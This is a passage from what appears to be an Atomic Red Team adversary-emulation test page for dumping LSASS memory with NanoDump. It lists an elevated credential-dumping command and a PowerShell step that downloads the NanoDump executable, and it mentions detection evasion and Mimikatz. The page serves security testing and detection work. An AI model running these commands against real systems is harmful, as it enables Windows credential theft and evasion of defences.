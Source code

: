- [Atomic Test #5 - Dump LSASS.exe Memory using Windows Task Manager](#atomic-test-5---dump-lsassexe-memory-using-windows-task-manager)

- [Atomic Test #10 - Powershell Mimikatz](#atomic-test-10---powershell-mimikatz)


<br/>


## Atomic Test #4 - Dump LSASS.exe Memory using NanoDump
The NanoDump tool uses syscalls and an invalid dump signature to avoid detection.

https://github.com/helpsystems/nanodump

Upon successful execution, you should find the nanondump.dmp file in the temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** dddd4aca-bbed-46f0-984d-e4c5971c51ea






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe -w "%temp%\nanodump.dmp"
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```



